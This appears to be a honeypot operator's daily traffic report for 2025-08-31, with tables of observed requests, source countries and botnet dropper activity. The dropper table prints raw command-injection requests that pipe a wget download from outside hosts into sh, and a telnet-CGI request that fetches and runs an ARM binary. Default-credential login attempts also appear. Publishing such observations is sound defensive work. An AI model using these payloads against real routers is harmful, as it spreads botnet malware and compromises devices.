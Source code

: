 ```yaml
---
title: "Report: 2025-08-31 "
date: 2025-08-31
desciption: "Report: 2025-08-31" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-31 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 7 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 10 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 450 requests were recorded during the day, originating from 7 different countries, with a peak of 104 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| US               | Germany            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                 |
|:----------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------|
| 61.80.239.193   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//0.0.0.0/router.tplink.sh%20-O-%7Csh) HTTP/1.1                    |
| 58.40.8.206     | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//0.0.0.0/router.tplink.sh%20-O-%7Csh) HTTP/1.1                    |
| 207.189.221.46  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1             |
| 221.159.119.6   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//0.0.0.0/router.tplink.sh%20-O-%7Csh) HTTP/1.1                    |
| 139.216.137.182 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1             |
| 121.167.125.180 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1             |
| 91.224.92.22    | GET /cgi-bin/shortcut_telnet.cgi?cd%20/var/tmp;rm%20-rf%20arm7;wget%20http://91.224.92.22:58485/observatory/arm7;chmod%20777%20*;./arm7%20fibn HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                              |
|----:|----------------------:|:-----------------------------------------------------|
|   9 |                     5 | CONNECT 196.251.87.42:80 HTTP/1.0                    |
|  64 |                     2 | GET /orvzjhhwrr/rh86fmvgaj/41042 HTTP/1.1            |
|  88 |                     1 | GET /portal/loginpage.aspx HTTP/1.1                  |
| 102 |                     1 | \x00\x0E8\xCF                                        |
| 117 |                     1 | \x00\x0E8\x97\x89(Z\xBC\xEA\x84(\x00\x00\x00\x00\x00 |
| 121 |                     1 | \x04\x01\x00P\xC4\xFBW*\x00                          |
| 123 |                     1 | \x04\x01\x00P\xC4\xFBW*ubnt:ubnt\x00                 |
| 126 |                     1 | \x04\x01\x00P\xC4\xFBW*support:support\x00           |
| 127 |                     1 | \x04\x01\x00P\xC4\xFBW*oracle:oracle\x00             |
| 128 |                     1 | \x04\x01\x00P\xC4\xFBW*cisco:cisco\x00               |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   104 | US                 |
|  1 |                    64 | GB                 |
|  2 |                    46 | ID                 |
|  3 |                    46 | KZ                 |
|  4 |                    39 | SC                 |
|  5 |                    25 | DE                 |
|  6 |                    24 | NL                 |
|  7 |                    24 | CA                 |
|  8 |                    11 | KR                 |
|  9 |                    11 | SG                 |
| 10 |                    10 | CN                 |
| 11 |                     9 | CH                 |
| 12 |                     6 | AU                 |
| 13 |                     4 | JP                 |
| 14 |                     4 | UA                 |
| 15 |                     3 | BG                 |
| 16 |                     3 | FR                 |
| 17 |                     3 | BE                 |
| 18 |                     3 | IT                 |
| 19 |                     2 | RU                 |
| 20 |                     2 | BR                 |
| 21 |                     1 | MN                 |
| 22 |                     1 | PT                 |
| 23 |                     1 | MC                 |
| 24 |                     1 | AM                 |
| 25 |                     1 | TW                 |
| 26 |                     1 | IN                 |
| 27 |                     1 | HK                 |
